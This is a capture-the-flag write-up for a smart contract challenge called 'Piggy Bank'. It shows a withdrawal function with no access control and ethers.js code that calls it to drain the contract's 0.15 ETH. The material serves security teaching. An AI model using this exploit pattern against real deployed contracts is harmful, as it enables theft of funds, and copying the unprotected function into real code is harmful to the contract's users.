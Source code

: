 # Piggy Bank

# Problem Statement
```
Welcome to the Piggy Bank Contract
This contract belongs to Charlie with the address CHARLIES_ADDRESS
Charlie is the only person capable of withdrawing from this contract
Your wallet is YOUR_ADDRESS, so you are not Charlie and you can not withdraw

Piggy Bank Details
Balance: 0.15 ETH
Total Withdrawls: 0
I'm definitely Charlie! Let me withdraw!
```

# Solution
Lets first look at all the `public`/`external` methods we can call. After looking at all all of these externally callable functions, we see a way to withdraw funds by looking at the `CharliesPiggyBank` contract's `collectFunds` function:
```
function collectFunds(uint256 amount) public ctf{
    require(amount<=piggyBalance, "Insufficient Funds in Contract");
    withdrawlCount = withdrawlCount.add(1);
    withdraw(amount);
}
```
It calls the `withdraw` method to withdraw the funds. It is also `public` so it is available to call by anyone and all it checks for is if the input `amount` is less than or equal to the ether balance of the contract.<br>
Great. So all we have to do is to call this function with the total ether amount of the contract:
```
// using ethers.js
const contractAddress = // PiggyBank contract address
const eoa = // Your address
const abi = [
  {
    constant: false,
    inputs: [{ name: "amount", type: "uint256" }],
    name: "collectFunds",
    outputs: [],
    payable: false,
    stateMutability: "nonpayable",
    type: "function",
  },
];
const contract = new ethers.Contract(contractAddress, abi, eoa);
const weiAmount = ethers.utils.parseUnits(".15", "ether"); // .15 ethers is in the contract
const tx = await contract.collectFunds(weiAmount);
```

We've completed this lesson!

# Key Learnings
- Always poke around in a contract to see the available holes available to test. These are the `public`/`external` functions.
